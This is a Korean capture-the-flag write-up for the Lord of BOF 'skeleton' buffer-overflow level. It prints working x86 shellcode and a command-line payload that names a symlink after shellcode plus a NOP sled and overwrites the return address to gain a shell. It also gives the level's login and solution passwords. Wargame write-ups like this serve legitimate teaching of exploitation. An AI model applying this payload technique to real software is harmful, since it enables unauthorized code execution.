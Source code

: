 # [LOB] skeleton Write-up

![](./picture/skeleton_1.JPG)

```
login : vampire
Password : music world
```

위의 계정으로 로그인하면 접속된다.

이번 문제의 소스코드는 다음과 같다.

![](./picture/skeleton_2.JPG)

이번 문제에서는 argv를 다 초기화한다. 하지만 스택 바닥(가장 높은 주소)쪽에 있는 프로그램 실행명은 초기화되지 않는다. 한 번 확인해보자.

```
\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81
```
사용한 쉘코드는 위에 있다.

![](./picture/skeleton_3.JPG)

쉘코드+NOP(100byte)로 심볼릭 링크를 복사한 파일에 걸어주었다. 처음에 NOP을 주지 않고 쉘코드로만 링크를 걸었더니 문제가 풀리지 않았다. 리턴주소를 이상하게 주어 core dump를 떠 분석해보았다. 

![](./picture/skeleton_4.JPG)

확인해보면 초기화되지 않은 쉘코드와 NOP을 확인할 수 있다. 쉘코드의 시작 주소는 `0xbfffff67`이다. 

![](./picture/skeleton_5.JPG)
![](./picture/skeleton_6.JPG)


aaaaaaaa에 걸어주었던 심볼릭 링크를 삭제하고, skeleton에 다시 걸어주었다.

```
./`python -c 'print "\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+"\x90"*100'` `python -c 'print "\x90"*44+"\x67\xff\xff\xbf"'`
```

페이로드는 위와 같다. 심볼릭 링크로 실행시켜주었고, 프로그램 파일명이 있는 주소를 리턴주소로 넣어주었다.

![](./picture/skeleton_7.JPG)

쉘을 땄고, 비밀번호는 `shellcoder`이다.